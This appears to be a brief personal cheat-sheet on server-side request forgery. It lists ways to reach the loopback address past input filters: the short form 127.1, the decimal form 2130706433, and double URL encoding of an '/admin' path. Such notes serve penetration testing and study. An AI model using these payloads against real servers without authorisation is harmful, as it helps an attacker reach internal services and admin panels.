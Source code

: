 # ssrf
> http://127.0.0.1 

> http://127.1

> ip to decimal 

> http://127.0.0.1 ==> http://2130706433

> double-URL encode

>http://2130706433/admin ==> http://2130706433/%2561dmin
